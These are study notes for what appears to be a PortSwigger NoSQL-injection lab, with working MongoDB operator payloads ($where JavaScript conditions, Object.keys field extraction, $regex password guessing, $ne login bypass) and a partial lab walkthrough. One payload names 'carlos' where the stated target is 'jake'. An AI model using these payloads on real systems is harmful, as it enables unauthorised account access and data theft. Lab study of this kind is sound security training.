 You can use **Boolean** conditions to determine whether the application executes any JavaScript that you inject via this operator. 

```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```
If there is a difference between the responses, this may indicate that the JavaScript expression in the $where clause is being evaluated. 
### Extracting field name 

If you have injected an operator that enables you to run JavaScript, you may be able to use the keys() method to extract the name of data fields. 
```json
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```
This inspects the first data field in the user object and returns the first character of the field name.
#### Using [[regex]]

```json 
{"username":"admin","password":{"$regex":"^.*"}}
```

If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable. 

the following payload checks whether the password begins with an a:
```json
{"username":"admin","password":{"$regex":"^a*"}}
```
#### *Lab*

The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection. we need to login as jake

We receive an Invalid username or password error message. When attempting to log in to the application with username jake and password invalid. 

change the value of the password parameter from `"invalid"` to `{"$ne":"invalid"}`, then send the request. Notice that you now receive an Account locked error message. You can't access Jake's account, but this response indicates that the `$ne` operator has been accepted and the application is vulnerable. 

Add `"$where": "0"` as an additional parameter in the JSON data as follows: 
```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
```
Send the request. Notice that you receive an Invalid username or password error message.
Change `"$where": "0"` to `"$where": "1"`, then resend the request. Notice that you receive an Account locked error message. This indicates that the JavaScript in the `$where` clause is being evaluated.

rest of the attack is better documented below - it involves obtaining the password reset token for `GET /forgot-password` request (a potentially interesting endpoint)  
https://portswigger.net/web-security/learning-paths/nosql-injection/exploiting-nosql-operator-injection-to-extract-data/nosql-injection/lab-nosql-injection-extract-unknown-fields#
